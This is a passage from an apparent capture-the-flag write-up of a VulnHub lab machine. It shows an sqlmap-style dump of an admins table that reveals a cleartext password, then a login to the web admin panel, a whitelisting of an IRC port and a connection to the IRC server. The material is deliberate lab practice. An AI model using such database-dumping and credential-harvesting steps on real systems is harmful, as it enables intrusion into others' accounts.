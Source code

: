 Then dump the admins table with `-D vulnhub -T admins --dump`

```
Database: vulnhub
Table: admins
[1 entry]
+----+--------------------------------------+--------+
| id | pass                                 | user   |
+----+--------------------------------------+--------+
| 1  | 1b37y0uc4n76u3557h15p455w0rd,5uck3rz | rasta  |
+----+--------------------------------------+--------+
```

Yay! So we found the clear text password of `rasta` (even if it looks like md5 ;D ).

Using the new login we can login on the web application and are presented with an admin application for the IRC server.

![Admin Area](/img/vulnhub_dc416_dick_dastardly/admin_area.png)

First we try to `Add IP to IRC whitelist` and see if this opens the IRC port for us. Success.

```
6667/tcp open  irc     IRCnet ircd
| irc-info:
|   users: 1
|   servers: 1
|   chans: 15
|   lusers: 1
|   lservers: 0
|   server: irc.localhost
|   version: 2.11.2p2. irc.localhost 000A
|   uptime: 0 days, 0:53:58
|   source ident: NONE or BLOCKED
|   source host: 192.168.56.3
|_  error: Closing Link: jgjxeujeu[~nmap@192.168.56.3] ("")
```

We also have an option to add an `Supybot Owner` so lets add the user `test` with the password `test` but nothing happens. So we try to activate the `Supybot` and have a look at the IRC server.

I installed `weechat` on my kali vm, started it and configured it the following way:

```
/server add vulnhub 192.168.56.2
/connect vulnhub
```

By using `/list` we can get a list of all channels

```
21:10:08 vulnhub  -- | #vulnhub(1)
21:10:08 vulnhub  -- | &WALLOPS(1): SERVER MESSAGES: wallops received
21:10:08 vulnhub  -- | &SAVE(1): SERVER MESSAGES: save messages
21:10:08 vulnhub  -- | &AUTH(1): SERVER MESSAGES: messages from the authentication slave
21:10:08 vulnhub  -- | &SERVICES(1): SERVER MESSAGES: services joining and leaving
21:10:08 vulnhub  -- | &LOCAL(1): SERVER MESSAGES: notices about local connections
21:10:08 vulnhub  -- | &HASH(1): SERVER MESSAGES: hash tables growth
21:10:08 vulnhub  -- | &SERVERS(1): SERVER MESSAGES: servers joining and leaving
21:10:08 vulnhub  -- | &NUMERICS(1): SERVER MESSAGES: numerics received
21:10:08 vulnhub  -- | &CHANNEL(1): SERVER MESSAGES: fake modes
21:10:08 vulnhub  -- | &KILLS(1): SERVER MESSAGES: operator and server kills
21:10:08 vulnhub  -- | &NOTICES(1): SERVER MESSAGES: warnings and notices
21:10:08 vulnhub  -- | &ERRORS(1): SERVER MESSAGES: server errors
21:10:08 vulnhub  -- | End of LIST
```
